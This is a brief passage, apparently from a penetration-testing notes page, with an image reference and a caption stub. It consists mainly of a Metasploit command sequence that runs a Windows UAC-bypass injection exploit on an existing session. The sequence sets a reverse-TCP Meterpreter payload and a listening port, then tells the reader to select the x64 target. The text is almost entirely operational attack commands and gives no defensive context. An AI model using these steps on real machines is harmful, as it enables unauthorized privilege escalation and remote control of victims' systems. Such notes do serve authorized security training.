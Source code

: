 ```bash
search bypassuac
use exploit/windows/local/bypassuac_injection
set payload windows/x64/meterpreter/reverse_tcp
set SESSION 2
set LPORT 5533
run
```

<figure><img src="../../../../../.gitbook/assets/image (23) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* Select the correct target - `x64`
